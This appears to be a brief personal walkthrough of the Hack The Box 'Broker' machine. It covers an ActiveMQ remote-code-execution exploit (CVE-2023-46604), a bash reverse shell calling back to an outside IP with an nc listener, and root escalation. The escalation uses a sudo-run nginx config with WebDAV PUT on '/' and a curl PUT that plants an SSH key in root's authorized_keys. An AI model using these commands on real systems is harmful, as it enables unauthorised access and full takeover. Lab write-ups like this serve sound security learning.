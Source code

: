 ## Broker box on htb

### Useful tools:
https://www.revshells.com/

### Obtaining user flag
https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Once exploit delivered, just `cat /home/activemq/user.txt`

### Obtaining root flag
Used nginx which user had access to to start nginx server and allow PUT with WebDav

Rev shell on target: `sh -i >& /dev/tcp/10.10.14.131/9001 0>&1`

Listener on host: `rlwrap nc -lvnp 9001`

To open up a stream from local to remote with reverse shell:
```shell
# on remote
nc -l -p 1234 > nginx.conf

# on host
nc -w 3 broker.htb 1234 < nginx.conf
```

Custom config:

```json
// nginx.conf
user root;
events {
    worker_connections 512;
}
http {
  server {
    dav_methods PUT DELETE MKCOL COPY MOVE;
    listen 9005;
    root /;
    autoindex on;
  }
}
```

Start nginx server with custom config:
`sudo nginx -c $(realpath nginx.conf)`


## With nginx webdav method to put files:
`curl -X PUT -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIErzi80YYVjGdDF0K4f29cvtK3MTLy87WUNOXr6W5U3Y parallels@kali-gnu-linux-2023.2" http://broker.htb:9000/root/.ssh/authorized_keys`

Used local ssh key to transfer to box with nginx server running int othe root authorized keys.

